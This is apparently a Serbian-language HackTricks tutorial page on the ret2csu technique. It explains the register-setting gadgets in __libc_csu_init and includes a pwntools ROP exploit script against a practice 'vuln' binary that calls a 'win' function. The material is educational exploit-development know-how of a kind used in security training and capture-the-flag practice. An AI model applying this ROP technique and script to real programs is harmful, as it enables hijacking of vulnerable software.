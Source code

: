 # Ret2csu

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basic Information

**ret2csu** je tehnika hakovanja koja se koristi kada pokušavate da preuzmete kontrolu nad programom, ali ne možete da pronađete **gadgets** koje obično koristite za manipulaciju ponašanjem programa.&#x20;

Kada program koristi određene biblioteke (kao što je libc), ima neke ugrađene funkcije za upravljanje načinom na koji različiti delovi programa komuniciraju jedni s drugima. Među tim funkcijama su neki skriveni dragulji koji mogu delovati kao naši nedostajući gadgets, posebno jedan nazvan `__libc_csu_init`.

### The Magic Gadgets in \_\_libc\_csu\_init

U `__libc_csu_init`, postoje dve sekvence instrukcija (naši "magični gadgets") koje se ističu:

1. Prva sekvenca nam omogućava da postavimo vrednosti u nekoliko registara (rbx, rbp, r12, r13, r14, r15). Ovo su kao slotovi gde možemo da čuvamo brojeve ili adrese koje želimo da koristimo kasnije.
```armasm
pop rbx;
pop rbp;
pop r12;
pop r13;
pop r14;
pop r15;
ret;
```
Ovaj uređaj nam omogućava da kontrolišemo ove registre tako što izvlačimo vrednosti sa steka u njih.

2. Druga sekvenca koristi vrednosti koje smo postavili da uradi nekoliko stvari:
* **Premesti specifične vrednosti u druge registre**, pripremajući ih za korišćenje kao parametre u funkcijama.
* **Izvrši poziv na lokaciju** određenu sabiranjem vrednosti u r15 i rbx, a zatim množenjem rbx sa 8.
```
mov rdx, r14;
mov rsi, r13;
mov edi, r12d;
call qword [r15 + rbx*8];
```
## Primer

Zamislite da želite da napravite syscall ili pozovete funkciju kao što je `write()`, ali su vam potrebne specifične vrednosti u registrima `rdx` i `rsi` kao parametri. Obično biste tražili gadgete koji direktno postavljaju ove registre, ali ne možete pronaći nijedan.

Evo gde **ret2csu** dolazi u igru:

1. **Postavite Registre**: Koristite prvi magični gadget da izvučete vrednosti sa steka i stavite ih u rbx, rbp, r12 (edi), r13 (rsi), r14 (rdx) i r15.
2. **Koristite Drugi Gadget**: Kada su ti registri postavljeni, koristite drugi gadget. Ovo vam omogućava da premestite izabrane vrednosti u `rdx` i `rsi` (iz r14 i r13, redom), pripremajući parametre za poziv funkcije. Štaviše, kontrolišući `r15` i `rbx`, možete naterati program da pozove funkciju smeštenu na adresi koju izračunate i stavite u `[r15 + rbx*8]`.

Imate [**primer koji koristi ovu tehniku i objašnjava je ovde**](https://ir0nstone.gitbook.io/notes/types/stack/ret2csu/exploitation), a ovo je konačni exploit koji je korišćen:
```python
from pwn import *

elf = context.binary = ELF('./vuln')
p = process()

POP_CHAIN = 0x00401224 # pop r12, r13, r14, r15, ret
REG_CALL = 0x00401208  # rdx, rsi, edi, call [r15 + rbx*8]
RW_LOC = 0x00404028

rop.raw('A' * 40)
rop.gets(RW_LOC)
rop.raw(POP_CHAIN)
rop.raw(0)                      # r12
rop.raw(0)                      # r13
rop.raw(0xdeadbeefcafed00d)     # r14 - popped into RDX!
rop.raw(RW_LOC)                 # r15 - holds location of called function!
rop.raw(REG_CALL)               # all the movs, plus the call

p.sendlineafter('me\n', rop.chain())
p.sendline(p64(elf.sym['win']))            # send to gets() so it's written
print(p.recvline())                        # should receive "Awesome work!"
```
{% hint style="warning" %}
Napomena da prethodni exploit nije namenjen za **`RCE`**, već samo da pozove funkciju pod nazivom `win` (uzimajući adresu `win` iz stdin pozivajući gets u ROP lancu i čuvajući je u r15) sa trećim argumentom sa vrednošću `0xdeadbeefcafed00d`.
{% endhint %}

### Zašto ne koristiti libc direktno?

Obično su ovi slučajevi takođe ranjivi na [**ret2plt**](../common-binary-protections-and-bypasses/aslr/ret2plt.md) + [**ret2lib**](ret2lib/), ali ponekad je potrebno kontrolisati više parametara nego što se lako može kontrolisati sa gadgetima koje direktno pronađete u libc. Na primer, funkcija `write()` zahteva tri parametra, i **pronalazak gadgeta za postavljanje svih ovih direktno možda neće biti moguć**.

{% hint style="success" %}
Učite i vežbajte AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Učite i vežbajte GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podržite HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** nas na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite hakerske trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}
